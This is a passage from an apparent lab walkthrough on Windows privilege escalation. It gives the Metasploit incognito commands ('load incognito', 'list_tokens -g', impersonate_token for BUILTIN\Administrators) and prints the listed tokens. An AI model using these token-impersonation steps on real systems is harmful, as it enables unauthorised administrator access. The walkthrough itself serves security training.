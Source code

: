 **You can see that two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled. Let's use the incognito module that will allow us to exploit this vulnerability. Enter: load incognito to load the incognito module in metasploit. Please note, you may need to use the use incognito command if the previous command doesn't work. Also ensure that your metasploit is up to date.**

- ``load incognito``

**To check which tokens are available, enter the list_tokens -g. We can see that the BUILTIN\Administrators token is available. Use the impersonate_token "BUILTIN\Administrators" command to impersonate the Administrators token. What is the output when you run the getuid command?**

- ``list_tokens -g``

```
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
========================================
\
BUILTIN\Administrators
BUILTIN\Users
NT AUTHORITY\Authenticated Users
NT AUTHORITY\NTLM Authentication
NT AUTHORITY\SERVICE
NT AUTHORITY\This Organization
NT AUTHORITY\WRITE RESTRICTED
NT SERVICE\AppHostSvc
NT SERVICE\AudioEndpointBuilder
NT SERVICE\BFE
NT SERVICE\CertPropSvc
NT SERVICE\CscService
NT SERVICE\Dnscache
NT SERVICE\eventlog
NT SERVICE\EventSystem
NT SERVICE\FDResPub
NT SERVICE\iphlpsvc
NT SERVICE\LanmanServer
NT SERVICE\MMCSS
NT SERVICE\PcaSvc
NT SERVICE\PlugPlay
NT SERVICE\RpcEptMapper
NT SERVICE\Schedule
NT SERVICE\SENS
NT SERVICE\SessionEnv
NT SERVICE\Spooler
NT SERVICE\TrkWks
NT SERVICE\TrustedInstaller
NT SERVICE\UmRdpService
NT SERVICE\UxSms
NT SERVICE\Winmgmt
NT SERVICE\WSearch
NT SERVICE\wuauserv

Impersonation Tokens Available
========================================
NT AUTHORITY\NETWORK
NT SERVICE\AudioSrv
NT SERVICE\DcomLaunch
NT SERVICE\Dhcp
NT SERVICE\DPS
NT SERVICE\lmhosts
NT SERVICE\MpsSvc
NT SERVICE\PolicyAgent
NT SERVICE\Power
NT SERVICE\ShellHWDetection
```